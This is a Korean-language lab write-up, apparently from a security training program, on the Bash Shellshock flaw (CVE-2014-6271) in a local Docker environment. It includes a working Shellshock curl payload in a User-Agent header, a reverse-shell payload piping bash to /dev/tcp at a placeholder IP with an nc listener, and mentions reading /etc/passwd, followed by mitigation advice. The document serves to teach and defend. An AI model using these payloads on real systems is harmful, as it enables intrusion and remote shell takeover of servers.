

# Bash Shellshock 원격 명령어 실행 취약점 (CVE-2014-6271)
>화이트햇 스쿨 3기 - 진형권 ([@Isidoro4-kor](https://github.com/Isidoro4-kor))

참고 - [vulhub](https://github.com/vulhub/vulhub/tree/master/bash/CVE-2014-6271)

## 요약
- Bash는 유닉스 및 리눅스에서 널리 사용되는 셸(shell)로, 사용자와 시스템이 상호작용할 수 있게 해주는 명령어 해석기입니다. 대부분의 리눅스 시스템에서 기본 셸로 사용되며, 스크립트를 실행하는 데에도 사용됩니다.
- 이 취약점은 Bash가 환경 변수에 정의된 함수를 처리할 때, 함수 정의 이후에 오는 임의의 명령어도 실행해버리는 문제입니다. 웹서버의 CGI 스크립트 환경에서 사용자가 조작한 HTTP 헤더가 환경 변수로 전달되면, 공격자가 헤더에 명령어를 삽입해 서버에서 임의 명령어를 실행시킬 수 있습니다.
- 원격 명령어 실행(RCE) - 서버에서 id, cat /etc/passwd 등 명령어를 실행, 시스템 권한 탈취 - root 권한 획득 후 시스템 제어 등이 가능합니다.

<br> 

## 환경설정
```bash
docker compose up -d
```
- ```http://localhost/victim.cgi``` -> 취약한 bash
- ```http://localhost/safe.cgi``` -> 패치된 bash
<br>

## Shellshock 공격 시도
취약한 bash
```bash
curl -H 'User-Agent: () { :; }; echo; echo; /usr/bin/id' http://localhost:8080/victim.cgi
```


<br> <br> 

패치된 bash
```bash
curl -H 'User-Agent: () { :; }; echo; echo; /usr/bin/id' http://localhost:8080/safe.cgi

```

<br>

## 리버스 쉘 연결 시도

새로운 터미널에서
```bash
nc -l 4444
```

기존 터미널에서 
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<your-ip>/4444 0>&1' \http://localhost:8080/victim.cgi

```

결과


<br>

**ls**, **whoami**, **cat /etc/passwd** 등의 명령어 가능 &nbsp;-> &nbsp;쉘 탈취 성공

<br>

## 최종 정리
Shellshock은 Bash가 환경변수를 잘못 파싱해 명령어를 실행하는 치명적 버그로,
단순한 HTTP 요청만으로도 원격 코드 실행(RCE)이 가능한 극악한 취약점이다.

이 취약점에 대한 예방을 위해서는 다음과 같은 조치가 필요하다.

- Bash 최신 버전으로 업데이트: 취약한 버전(4.3 이하)을 최신 패치된 Bash로 교체
- 취약한 CGI 스크립트 제거 또는 다른 셸로 전환: Bash를 직접 사용하는 웹 인터페이스는 줄이는 것이 바람직
- 웹 서버 보안 설정 강화: Apache의 경우 mod_security와 같은 WAF(Web Application Firewall) 적용
- 불필요한 환경변수 전달 차단: 서버에서 외부 입력을 환경변수로 등록하지 않도록 필터링
- 정기적인 취약점 진단 및 시스템 점검 수행


